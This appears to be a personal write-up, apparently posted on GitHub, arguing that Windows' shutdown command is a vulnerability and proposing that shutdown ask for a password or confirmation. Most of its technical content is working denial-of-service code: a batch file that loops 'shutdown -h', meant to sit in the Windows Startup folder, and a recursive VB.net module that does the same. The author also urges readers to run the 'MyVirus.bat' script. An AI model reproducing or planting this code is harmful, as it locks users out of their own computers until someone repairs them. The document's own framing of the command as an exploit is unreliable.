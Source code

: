 My World Wide Security Patch for Windows 2000/XP/7/8/10/11 and all Kind of Windows Servers 32bits/64bits.

Author : Wadï Mami

Publication Date : 12/07/2021

Email : wmami@steg.com.tn / didipostman77@gmail.com 


Introduction

Since 2015 I have contacted Microsoft for a security vulnerability which is a Dos (Disk Operating System) command. For this reason I have written .bat file which exploits this command. But MSRC (Microsoft Security Response Center) consider it as a malware and I must report it like that. I was not agree but I accepted and I reported it as a malware but they did nothing
. 
Please visit https://github.com/didipostman/MyVirus

But let me explain to you the real problem.


The problem

If shutdown command is executed in Windows startup you can not use your Windows PC/Laptop anymore till an expert intervention by booting with a bootable CD/DVD or a system Flash disk and then exploring the startup Windows for a suspicious file that exploit shutdown command and delete it.
Think if the following .bat file is copied in the start up Windows by a Worm 
Please visit:

https://stackoverflow.com/questions/35587412/how-this-batch-worm-works

https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture22.pdf

here I give only concept Don't use this code whith malicious intention!

---------------------------------------------------------------

echo off

rem clean screen

cls

rem definition return point

:loop

rem execute shutdown -h

shutdown -h

rem return to :loop

goto loop

That kind of code can be hidden in software you use or you download and install in Windows Startup. It works fine for windows 2000/XP/7/8/10/11 etc.
Moreover here a VB.net equivalent code to the .bat DOS Shell above A VB.net Source Code as an example It works fine for Windows XP/7/8/10/11.
It is a VB.net Module that can generate .exe file

---------------------------------------------------------

Imports System.Runtime.InteropServices 

Module Module1 

Sub Main()

Dim process As Process = process.Start("cmd","/C shutdown -h")

Main() 

End Sub

As you can see all high generation Languages can exploit this DOS command shutdown –h which leads to a DoS a denial of service well a denial of all the services as your Windows Pc is intact but you can’t make use of it.

Conclusion :
What is the solution to avoid this kind of exploit of this DOS command shutdown.
Shall Microsoft Depricated it or shall keep it assuming security measurements in using it.
I think the patch for all kind of Windows is to ask for account password anytime shutdown is invoked.

Just try to execute MyVirus.bat to figure out the problem !!!!


https://github.com/didipostman/MyVirus

Shutdown: Allow system to be shut down without having to log on

 https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/shutdown-allow-system-to-be-shut-down-without-having-to-log-on
The patch is to Ask yes or No  any Time shutdown is invoked.
